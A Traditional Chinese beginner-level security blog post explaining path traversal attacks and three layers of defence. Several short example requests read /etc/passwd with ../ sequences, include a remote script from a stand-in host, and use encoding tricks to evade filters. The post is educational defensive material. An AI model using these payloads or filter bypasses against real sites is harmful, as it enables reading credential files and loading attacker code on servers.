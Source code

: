 ```yaml
---
title: 零基礎資安系列（五）-路徑遍歷（Path Traversal）
author: jo
date: 2021-05-30
tags: [Security,ZeroBased,Path Traversal]
layout: zh-tw/layouts/post.njk
image: /img/posts/jo/zerobased-path-traversal/cover.jpeg
---
```

<!-- summary -->
## 前言

> 路徑遍歷（Path Traversal）就像想像網站是一個博物館，裡面有許多房間，其中有些房間是 Staff Only 而且門上了鎖不讓訪客進入，但有趣的是博物館裡的每一個房間都有通風口，只要知道房間位置，就可以透過其他房間的通風口前往 Staff Only 的房間獲得所有你想要的資料。
<!-- summary -->

## 釋例

今天想和大家聊聊在網站安全上攻擊者容易執行但卻常被開發者忽略的路徑遍歷（Path Traversal）攻擊，談談關於路徑遍歷在網站安全上可能造成的風險以及如何預防。

通常路徑遍歷也被稱目錄遍歷（Directory Traversal），但他有個更具體而且蠻可愛的名字叫做點點斜線攻擊（Dot dot slash attack），那為什麼會叫這個名字呢？

舉個實際的例子，Linux 中，目錄的顯示是 / Users / hello / Desktop / file，如果使用者輸入 cd ../ 指令時，當前的目錄就會回到上一層，那這會有什麼問題？當這個指令是任一使用者測試在網站 URL 上輸入 ../ 都可以成功執行回到網站目錄上一層的時候問題就大條了，這表示告訴攻擊者，我有路徑遍歷的風險，你可以開始嘗試囉！

## 常見的路徑遍歷攻擊手法

以下拿幾個路徑遍歷的攻擊常見的範例來說明：

假設網址呈現的方式為：

```txt
https://www.example.com/get-files?file=report.pdf
```

而攻擊者在真正的執行路徑遍歷攻擊以前，常會使用絕對路徑遍歷的手法探測目標網站的網站架構，例如說：
```txt
https://www.example.com/get-files?file=/etc/passwd
```
，嘗試以常用的系統絕對路徑試探是否有回應當，當伺服器回應有關網站應用程序中的錯誤的信息時，攻擊者可以更容易猜測正確的位置（例如顯示原始碼的文件路徑）。

### 1.攻擊者嘗試訪問目錄外的路徑：

```txt
https://www.example.com/../../../../some dir/some file
```
攻擊者藉由多次的 ../ 來超脫當前的目錄，訪問不在目錄下的資料。

### 2.攻擊者嘗試讀取目錄中的系統檔案

```txt
https://www.example.com/get-files?file=/etc/passwd
```

攻擊者藉由 /etc/passwd 來嘗試直接讀取系統檔案，如果真的被攻擊者讀取到 /etc/passwd 檔的話，攻擊者很有可能藉此解讀 root user 的密碼，另外，值得一提的是，如果網站架在 Windows 的系統中的話，攻擊者只能訪問Web根目錄所在的磁碟分區，但如果是在 Linux 系統中的話，攻擊者則可以訪問整個磁碟。

### 3.攻擊者嘗試使網站引用外部文件或腳本

```txt
https://www.example.com/get-files?file=http://other-site.com/malicius-code.php
```

攻擊者藉由嘗試將其他網站中的文件包含到當前網站的目錄，讓系統去引用攻擊者的惡意外部文件或腳本，進而達到提權或是竊取機敏資料的目的。

### 4.攻擊者以竄改 HTTP 的請求藉此對伺服器發起攻擊

```txt
GET /vulnerable.php HTTP/1.0   
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

與上列不同的是攻擊者不是經由竄改 URL 而達成路徑遍歷的攻擊，而是藉由竄改 HTTP 的請求以多次的../來超脫當前網站的目錄，使伺服器回應傳送 etc/passwd 解讀 root user 的密碼。

## 變形的路徑遍歷攻擊

在看完上述所說明的攻擊之後，你可能想說那我只要擋掉使用者在我的 URL 以及 HTTP 請求的輸入進行驗證及限制，不允許../的出現，那麼針對路徑遍歷的攻擊也就無用武之地了吧？

一個好消息和一個壞消息告訴你，好消息是你的觀念正確，對URL 以及 HTTP 請求的輸入進行驗證及限制的確是避免路徑遍歷攻擊的應對策略之一，但壞消息是../是有變形的，而且還有很多種變形，其中最常見的變形就是在**零基礎資安系列(二)-認識 XSS(Cross-Site Scripting)** 中和大家提過的HTML Encoder 會將 `%2e%2e%2f` 解析為 ../ 繞過針對 ../ 的檢查，除此之外還有 UTF-8 編碼 `%c1%1c` 會被解析為 / ，以及若是更進階一點的話攻擊者還可能使用 xor 概念，`%d0^%ff = /` 的編碼方式，繞過限制的字元，如果大家對攻擊者可能使用的進階 injection 有興趣，我之後會再寫一篇文章和大家說明，在這裡主要想告訴大家的是限制字元的輸入是個好的應對策略，但前提是將所有攻擊者可能的攻擊方式全部寫進規則中，否則仍然會使攻擊者有機可趁。

## 如何防禦

上面說了這麼多攻擊者可能的攻擊方式，又表示有那麼多變形的路徑遍歷攻擊，那難道我們對攻擊者就無計可施了嗎？

當然不是！依據我的經驗，針對路徑遍歷攻擊的防禦可以從三個方面來看

**1.輸入驗證**

針對路徑遍歷攻擊最直覺的防禦就是驗證及限制所有在 URL 以及 HTTP 請求，不允許輸入 ../ 以及其他變形的輸入，這方面的防禦強度會在於網站對於輸入驗證的規則完善度而決定。

**2.權限控管**

在開發和部署網頁應用程式的時候盡可能的以最小的權限執行，盡可能的刪除所有不常使用或權限過大的使用者並取消 Guest 角色，建立完整的 ACL（Access Control List） ，且確保文件的可讀可寫權限也的確受到控管（例如Linux 系統盡可能不要有權限 777 的文件，這會讓這份文件全世界可讀可寫），這樣的話即使攻擊者成功的查看網頁目錄，也會因為權限問題而導致無法存取文件，最多只能得知網站目錄架構及檔名。

**3.資料處理**

之所以把資料處裡放在最後一步是因為我認為資料處理是面對攻擊者的最後一道防線，即使攻擊者可以繞過輸入驗證，成功獲得瀏覽目錄的權限，但如果目錄中沒有隱密資料或是將重要資料另外備份在其他的伺服器，例如密碼檔、已經沒有被引用的舊文件、網站備份的資料、Log 紀錄、系統版本紀錄 等，攻擊者在沒有獲得任何有效資料的情況下也只能繼續嘗試其他的攻擊路徑。

## 結論

雖然資料處理是三種防禦中面對攻擊者的最後一道防線，但我認為最重要的防禦還是針對路徑遍歷攻擊的輸入驗證，原因是因為對攻擊者來說，一但發現網站的輸入驗證規則設置周全或是一般常見的手法都沒辦法獲得任何有效的資料時，攻擊者通常會選擇另尋目標，所以我建議的方式會是建立一個針對路徑遍歷攻擊包含 ../ 及 HTML Encoder 編碼規則的輸入驗證會是針對路徑遍歷攻擊首先該做的事，接著才是刪除所有不常使用的使用者權限並且不允許遠端操作，將當前網站目錄中非必要存在的重要檔案另外備份並在當下的目錄中刪除，以上兩件事情可以依據公司的情況做調整，例如帳號權限複雜先不動或重要的檔案位置混亂不好歸納所以先處理權限 等，以公司承擔成本較低的方式自行取捨。

當以上三種防禦都進行之後，即使攻擊者願意花時間嘗試除了一般常見規則的路徑遍歷攻擊外再特別設計攻擊，並且在進入目錄後連一般使用者權限都沒有的情況下嘗試提權，再提權成功後，看著沒有高重要性資料的目錄同常也會感到挫折。

## 延伸閱讀

### 零基礎資安系列（二）- 認識 XSS(Cross-Site Scripting)

> [認識 XSS（Cross-Site Scripting）](https://tech-blog.cymetrics.io/jo/zerobased-cross-site-scripting)

#### 零基礎資安系列（四）- 認識注入攻擊（ Injection Attack）

> [認識注入攻擊（ Injection Attack）](https://tech-blog.cymetrics.io/jo/zerobased-injectionattack)

## 參考資料

### OWASP Path Traversal

> [https://owasp.org/www-community/attacks/Path\_Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

### Wikipedia Path Traversal

> [https://en.wikipedia.org/wiki/Directory\_traversal\_attack](https://en.wikipedia.org/wiki/Directory_traversal_attack)
